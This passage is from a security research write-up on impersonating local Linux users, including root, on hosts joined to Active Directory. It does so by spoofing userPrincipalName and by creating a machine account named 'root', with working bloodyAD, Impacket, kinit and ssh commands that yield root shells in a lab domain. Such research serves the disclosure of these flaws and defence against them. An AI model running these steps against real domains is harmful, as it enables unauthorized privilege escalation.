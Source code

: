 ## Scenario 2: UPN Spoofing (Local Users)

In the previous scenario, we were able to impersonate a domain user by modifying the `userPrincipalName` attribute in Active Directory. However, this attack can also be extended to local users on the Linux system.

```
bloodyAD --host 'C-DC01.mercury.local' -u 'gatari-ad' -p 'P@ssw0rd' set object 'gatari-ad' 'userPrincipalName' -v 'root'                       
[+] gatari-ad's userPrincipalName has been updated
```

Based on my testing, this only works with Kerberos SSO, and not password authentication. We can now authenticate to the Linux system as the `root` user using the `gatari-ad` credentials.

```
~$ echo 'P@ssw0rd' | kinit 'root' -E
Password for root@MERCURY.LOCAL: 

~$ ssh 'root'@L-MGRT-APP001.mercury.local id             
uid=0(root) gid=0(root) groups=0(root)
```

## Scenario 3: sAMAccount Name Confusion

Based on the research by Ceri Coburn, it is clear that the `sssd` service interprets incoming authentication in a potentially confusing manner. After further testing, and inspiration by a user named `lwo` on the [Vulnlab](https://www.vulnlab.com/) discord, I found that you could also impersonate a user by simply creating a machine account with the `sAMAccountName` of any local user.

### MachineAccountQuota

In your typical Active Directory environment, there is a limit on the number of machine accounts that can be created in a domain, this is controlled by the `MachineAccountQuota` setting. By default, this is set to `10`, meaning that any user with sufficient privileges can create up to 10 machine accounts in the domain.

With this setting, we can create a machine account with the `sAMAccountName` of `root`, and then use this account to authenticate to the Linux system as the `root` user.

```
~$ addcomputer.py 'mercury.local'/'gatari-ad':'P@ssw0rd' -computer-name 'root' -computer-pass 'P@ssw0rd123'
Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account root$ with password P@ssw0rd123.

~$ echo 'P@ssw0rd123' | kinit 'root'
~$ ssh 'root'@L-MGRT-APP001.mercury.local -K id    
uid=0(root) gid=0(root) groups=0(root)
```

### Writing to the sAMAccountName
